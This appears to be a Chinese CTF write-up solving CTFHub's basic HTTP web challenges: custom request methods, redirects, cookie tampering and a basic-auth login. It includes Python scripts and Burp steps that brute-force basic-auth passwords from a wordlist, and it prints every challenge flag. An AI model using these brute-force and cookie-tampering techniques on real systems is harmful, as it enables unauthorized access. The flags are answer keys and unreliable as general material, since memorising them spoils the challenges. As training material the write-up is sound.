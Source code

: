 # Web前置技能-HTTP协议

![image-20210424132445332](https://gitee.com/Harveysn0w/mac-note_img/raw/master/20210424132445.png)

## 1、请求方式

![image-20210424132802101](https://gitee.com/Harveysn0w/mac-note_img/raw/master/20210424132802.png)

![image-20210424133807305](https://gitee.com/Harveysn0w/mac-note_img/raw/master/20210424133807.png)

用hackbar怎么都不管用，get，post都不行，仔细一看应该是把GET请求方式改成GTFHUB的请求方式，可是HTTP没有这种方式呀，就抓包一试。

![image-20210424133453625](https://gitee.com/Harveysn0w/mac-note_img/raw/master/20210424133453.png)

![image-20210424133517245](https://gitee.com/Harveysn0w/mac-note_img/raw/master/20210424133517.png)

修改之后，放包，flag出现~

![image-20210424133526536](https://gitee.com/Harveysn0w/mac-note_img/raw/master/20210424133526.png)

```
ctfhub{c483838cbe2f37579f65800c}
```

#### HTTP的请求方式

```
1、OPTIONS
返回服务器针对特定资源所支持的HTTP请求方法，也可以利用向web服务器发送‘*’的请求来测试服务器的功能性
2、HEAD
向服务器索与GET请求相一致的响应，只不过响应体将不会被返回。这一方法可以再不必传输整个响应内容的情况下，就可以获取包含在响应小消息头中的元信息。
3、GET
向特定的资源发出请求。注意：GET方法不应当被用于产生“副作用”的操作中，例如在Web Application中，其中一个原因是GET可能会被网络蜘蛛等随意访问。Loadrunner中对应get请求函数：web_link和web_url
4、POST
向指定资源提交数据进行处理请求（例如提交表单或者上传文件）。数据被包含在请求体中。POST请求可能会导致新的资源的建立和/或已有资源的修改。 Loadrunner中对应POST请求函数：web_submit_data,web_submit_form
5、PUT
向指定资源位置上传其最新内容
6、DELETE
请求服务器删除Request-URL所标识的资源
7、TRACE
回显服务器收到的请求，主要用于测试或诊断
8、CONNECT
HTTP/1.1协议中预留给能够将连接改为管道方式的代理服务器。

注意：
1）方法名称是区分大小写的，当某个请求所针对的资源不支持对应的请求方法的时候，服务器应当返回状态码405（Mothod Not Allowed）；当服务器不认识或者不支持对应的请求方法时，应返回状态码501（Not Implemented）。
2）HTTP服务器至少应该实现GET和HEAD/POST方法，其他方法都是可选的，此外除上述方法，特定的HTTP服务器支持扩展自定义的方法。
```

## 2、302跳转

![image-20210424134238786](https://gitee.com/Harveysn0w/mac-note_img/raw/master/20210424134238.png)

![image-20210424134310310](https://gitee.com/Harveysn0w/mac-note_img/raw/master/20210424134310.png)

点击Give me flag链接，进行抓包获得flag

![image-20210424134419749](https://gitee.com/Harveysn0w/mac-note_img/raw/master/20210424134419.png)

```
ctfhub{7bb4b24e346c4f1108a97d13}
```

## 3、Cookie

![image-20210424134530517](https://gitee.com/Harveysn0w/mac-note_img/raw/master/20210424134530.png)

![image-20210424134836789](https://gitee.com/Harveysn0w/mac-note_img/raw/master/20210424134836.png)

题目说是admin才给flag，抓包看到cookie中的admin值为0，所以需要修改成1。

![image-20210424134707126](https://gitee.com/Harveysn0w/mac-note_img/raw/master/20210424134707.png)

放包得到flag

![image-20210424134723578](https://gitee.com/Harveysn0w/mac-note_img/raw/master/20210424134723.png)

```
ctfhub{f2d68b2b26f3dad8429e36ea}
```

## 4、基础认证

![image-20210424134908729](https://gitee.com/Harveysn0w/mac-note_img/raw/master/20210424134908.png)

![image-20210424135004621](https://gitee.com/Harveysn0w/mac-note_img/raw/master/20210424135004.png)

点击click，需要我们输入账号密码

![image-20210424135025990](https://gitee.com/Harveysn0w/mac-note_img/raw/master/20210424135026.png)

我们尝试登录一下，没有什么效果。题目附件给了一份密码，也就是说密码在其中。我们抓包看了一下，密码是base64加密的。

![image-20210424140719559](https://gitee.com/Harveysn0w/mac-note_img/raw/master/20210424140719.png)

我们使用一个脚本，将密码进行加密。

```
import base64

with open("10_million_password_list_top_100.txt", "r+") as f:
	for line in f.readlines():
		line = line.strip('\n')
		line = 'admin:'+line
		print (line)
		line1=base64.b64encode(line.encode('utf-8'))
		#print(str(line1,'utf-8'))
		f.write(str(line1,'utf-8')+'\n')
```

![image-20210424140355959](https://gitee.com/Harveysn0w/mac-note_img/raw/master/20210424140355.png)

我们进行整理一下。方便导入burp进行爆破

![image-20210424140846852](https://gitee.com/Harveysn0w/mac-note_img/raw/master/20210424140846.png)

成功得到flag

```
ctfhub{f75a627405e265fcb4cfe479}
```

#### 基础认证

```
https://zh.wikipedia.org/wiki/HTTP%E5%9F%BA%E6%9C%AC%E8%AE%A4%E8%AF%81
```

#### 其余解法

python中requests模块提供了对应的方法可以用来对账号密码进行爆破。

打开题目抓包，点击click获取flag，弹框需要账号密码，随便输入账号密码，已知账号admin,题干下面提供了密码的字典，直接上python脚本走一波。

方法一：利用python中requests模块的auth.HTTPBasicAuth爆破

```
import requests
proxies={"http:http://127.0.0.1:5080"}
username='admin'
with open(r'10_million_password_list_top_100.txt','r') as f:
    lines=f.readlines()
    for pwd in lines:
        password=pwd.rstrip('\n')
        url = "http://challenge-537d355a9df61d39.sandbox.ctfhub.com:10080/flag.html"
        auth=requests.auth.HTTPBasicAuth(username,password)
        print(auth)
        res=requests.get(url=url,auth=auth)
        ss=res.status_code
        if ss==200:
            print("password is %s,status_code is %s" %(password,ss))
```

通过requests模块，该模块提供了http基础认证的方法，直接爆破密码，根据返回值为200则密码正确，否则返回值为401，密码错误。

方法二：通过浏览器可以用http://username:password@domain的方式进行登陆验证

```
import requests
username='admin'
with open(r'10_million_password_list_top_100.txt','r') as f:
    lines=f.readlines()
    for pwd in lines:
        password=pwd.rstrip('\n')
        url = "http://admin:%s@challenge-da462e6a1d7f1d65.sandbox.ctfhub.com:10080/flag.html" %password     
        res=requests.get(url=url)
        ss=res.status_code
        # if ss==200:
        print("password is %s,status_code is %s" %(password,ss))
```

方法三：burp时候添加base64编码以及admin头部

![image-20210424141519835](https://gitee.com/Harveysn0w/mac-note_img/raw/master/20210424141519.png)

![image-20210424141532019](https://gitee.com/Harveysn0w/mac-note_img/raw/master/20210424141532.png)

![image-20210424141554820](https://gitee.com/Harveysn0w/mac-note_img/raw/master/20210424141554.png)

## 5、响应包源代码

![image-20210424141750890](https://gitee.com/Harveysn0w/mac-note_img/raw/master/20210424141750.png)

![image-20210424141900070](https://gitee.com/Harveysn0w/mac-note_img/raw/master/20210424141900.png)

f12查看源码，flag出来。

![image-20210424141918803](https://gitee.com/Harveysn0w/mac-note_img/raw/master/20210424141918.png)

```
ctfhub{c42e7e2fd33560b0043b5629}
```

